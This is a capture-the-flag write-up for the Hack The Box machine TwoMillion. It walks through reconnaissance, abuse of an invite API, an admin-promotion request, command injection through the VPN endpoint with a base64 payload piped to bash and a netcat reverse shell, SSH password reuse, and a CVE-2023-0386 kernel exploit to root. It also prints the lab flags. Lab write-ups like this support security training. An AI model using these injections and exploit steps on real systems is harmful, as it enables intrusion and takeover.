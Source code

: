 # HTB: TwoMillion

## Engagement Overview

**Target**: TwoMillion  
**Target IP:** 10.10.11.221   
**Local IP:** 10.10.16.9   
**Date:** 2025-07-28

---

### Objectives

- Enumerate available API endpoints
- Gain initial access via web application vulnerabilities
- Escalate privileges to root using a kernel exploit (CVE-2023-0386)

---

## Initial Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -Pn 10.10.11.221
```

**Result Summary:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
```

### Host Info

```
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64
Ubuntu 22.04.2 LTS (Jammy)
```

**Note:** Add `2million.htb` to `/etc/hosts` for web access.

---

## Web Enumeration & Initial Access

1. Accessing the web server shows a legacy version of the HackTheBox platform.
2. JavaScript file `inviteapi.min.js` contains obfuscated code to generate an invite.
3. Deobfuscation reveals hidden POST routes:
   - `/api/v1/invite/how/to/generate`
   - `/api/v1/invite/generate`
4. Using the above endpoints, a valid invite code is generated and a user is registered.

### Account Creation via Invite Flow

```bash
curl -sX POST http://2million.htb/api/v1/invite/generate | jq
```

Base64 decoded invite code used to register a user at `/register`.

---

## Gaining Administrative Access

After login:
1. Explored API endpoints using the session cookie.
2. Endpoint `/api/v1/admin/settings/update` lacks proper validation and allows privilege escalation.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update   --cookie "PHPSESSID=<session>"   --header "Content-Type: application/json"   --data '{"email":"test@2million.htb", "is_admin": 1}'
```

Admin privilege verified:
```bash
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=<session>" | jq
```

---

## Remote Command Execution

Using elevated privileges, command injection achieved via:
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate   --cookie "PHPSESSID=<session>"   --header "Content-Type: application/json"   --data '{"username":"test;echo <base64_payload> | base64 -d | bash;"}'
```

Reverse shell caught via Netcat:
```bash
nc -lvnp 1234
```

---

## Lateral Movement

1. Discovered `.env` in web root containing DB credentials.
2. SSH login as `admin` succeeded due to password reuse.

```bash
ssh admin@2million.htb
# Password: SuperDuperPass123
```

---

## Privilege Escalation

1. Enumerated `/var/mail/admin`, found advisory about kernel vulnerabilities.
2. Kernel version confirmed as vulnerable to CVE-2023-0386.

### Exploit Steps:
```bash
# Upload exploit to /tmp and unzip
scp cve.zip admin@2million.htb:/tmp
unzip cve.zip && cd CVE-2023-0386
make all
./fuse ./ovlcap/lower ./gc &
./exp
```

**Root Shell Acquired.**

---

## Post-Exploitation

- `user.txt`: `b475fff37c4ba394114ba0602756546d`
- `root.txt`: `b24036bdc728d59ab7230cddbf43798b`

Discovered `thank_you.json` in `/root/`, triple-encoded message decoded using CyberChef.

---

## Tools Utilized

- Nmap
- Curl & jq
- Burp Suite
- CyberChef
- De4js
- GitHub Exploit CVE-2023-0386

---

## Key Takeaways

- JavaScript deobfuscation and endpoint hunting can lead to privilege escalation.
- Misconfigured API logic in `update_settings` allowed user promotion.
- VPN generation endpoint enabled code injection via unsanitized shell execution.
- Kernel version vulnerable to CVE-2023-0386 provided full system compromise.

---
